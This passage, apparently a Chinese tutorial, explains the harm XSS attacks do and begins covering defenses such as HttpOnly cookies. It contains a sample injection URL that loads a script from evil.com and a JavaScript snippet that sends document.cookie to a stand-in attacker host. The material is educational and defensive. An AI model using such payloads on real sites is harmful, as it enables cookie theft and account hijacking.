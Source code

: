 #### XSS攻击的危害

XSS Payload的本质是JavaScript脚本，所以JavaScript可以做什么，XSS攻击就可以做什么。  

一个最常见的XSS Payload就是盗取用户的Cookie,从而发起Cookie劫持攻击。Cookie中，一般会保存当前用户的登录凭证，如果Cookie被黑客盗取，以为着黑客有可能通过Cookie直接登进用户的账户，进行恶意操作。  

如下所示，攻击者先加载一个远程脚本：  

````
 http://localhost/xssTest/test.php?userName=<scriipt src=http://www.evil.com/evil.js></script>  
````

而真正的XSS Payload，则写在远程脚本evil.js中。在evil.js中，可以通过下列代码窃取用户Cookie：

````javascript
<script>
    var img=document.createElement("img");

    img.src="http://www.evil.com/log?"+escape(document.cookie);  

    document.body.appendChild(img);  
 <script/>
````

这段代码插入了一张看不见的图片，同时把document.cookie作为参数，发到远程服务器。黑客在拿到cookie后，只需要替换掉自身的cookie，就可以登入被盗取者的账户，进行恶意操作。  

一个网站的应用只需要接受HTTP的POST请求和GET请求，就可以完成所有的操作，对于黑客而言，仅通过JavaScript就可以完成这些操作。 

#### 防御

其实如今一些流行的浏览器都内置了一些对抗XSS的措施，比如Firefox的CSP、IE 8内置的XSS Filter等。除此之外，还有以下防御手段

##### 1. HttpOnly

HttpOnly最早是由微软提出，并在IE6中实现的，至今已逐渐成为一个标准。浏览器将禁止页面的JavaScript访问带有HttpOnly 属性的Cookie。以下浏览器开始支持HttpOnly:  

- Microsoft IE 6 SP1+  

- Mozilla FireFox 2.0.0.5+  

- Mozilla Firefox 3.0.0.6+  

- Google Chrome  

- Apple Safari 4.0+  

- Opera 9.5+



一个Cookie的使用过程如下：  

Step1: 浏览器向服务器发送请求，这时候没有cookie。   

Step2: 服务器返回同时，发送Set-Cookie头，向客户端浏览器写入Cookie。  

Step3: 在该Cookie到期前，浏览器访问该域名下所有的页面，都将发送该Cookie。  

而HttpOnly是在Set-Cookie时标记的。      

##### 2. 输入检查
